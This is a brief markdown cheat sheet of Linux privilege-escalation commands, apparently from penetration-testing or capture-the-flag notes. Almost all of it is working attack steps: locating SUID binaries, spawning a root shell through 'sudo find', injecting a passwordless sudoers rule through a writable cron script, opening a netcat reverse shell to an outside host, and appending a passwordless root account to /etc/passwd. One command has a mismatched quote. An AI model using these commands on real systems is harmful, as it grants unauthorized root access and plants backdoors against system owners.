 - __Finding SUID__
  - __`find / -perm -4000 2>/dev/null`__

- __`sudo -l`__
  - __If you see this output `(root) NOPASSWD:/usr/bin/find`__
    - __`sudo find . -exec /bin/sh \; -quit` or without sudo also you can run __

- __Check for cronjob__
  - __It is used to execute file every 1m or 5m__
  - __`cat /etc/crontab`__
    - __for exame it's look like this `*/5 * * * * root /writable/script.sh` so here the `script.sh` will execute every 5m__
    - __you can inject this command echo `user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`__

- __using netcat__
  - __`nc <ip> <port > -e /bin/sh`__

- __creating a new user__
  - __`echo "newRoot::0:0:newRoot:/home/newRoot:/bin/sh" >> /etc/passwd`__

